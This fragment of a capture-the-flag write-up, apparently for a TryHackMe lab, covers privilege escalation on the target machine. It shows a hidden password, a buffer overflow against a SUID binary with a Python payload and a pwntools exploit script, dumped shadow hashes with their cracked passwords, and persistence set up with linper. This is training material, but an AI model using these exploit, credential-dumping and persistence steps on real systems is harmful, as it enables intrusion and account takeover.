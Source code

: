 The SSH does not work. Found a hidden password in /var/hidden/pass: pinguapingu

Swiched user to pingu. 

Cannot sudo, interesting SUID file found
```
pingu@ubuntu:~$ ls -lh /opt/secret/root
-r-sr-xr-x 1 root papa 7.4K Jan 16 21:07 /opt/secret/root
```

We can overwrite EIP after 44 characters.

Converting Hex to LE

0x080484cb
/xcb/x84/x04/x08

Making payload.
```
monty@localhost:~/ctfs/thm/the-cod-caper$ python -c "print(str('A'*44 + '/xcb/x84/x04/x08'))"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/xcb/x84/x04/x08
```

Could not get it to work with echo so I ran the following on the machine to exploit it:
```
pingu@ubuntu:/opt/secret$ python -c "print(str('A'*44 + '\xcb\x84\x04\x08'))" | ./root
...
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
...
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
```

Also exploited it with pwn tools
```
#!/usr/bin/python

from pwn import *

proc = process("/opt/secret/root")
elf = ELF("/opt/secret/root")
shell_func = elf.symbols.shell
payload = fit({ 44: shell_func })
proc.sendline(payload)
proc.interactive()
```

$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:postman
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:love2fish

Got root with "love2fish"

## Configuring Persistence

Configured linper on 5253
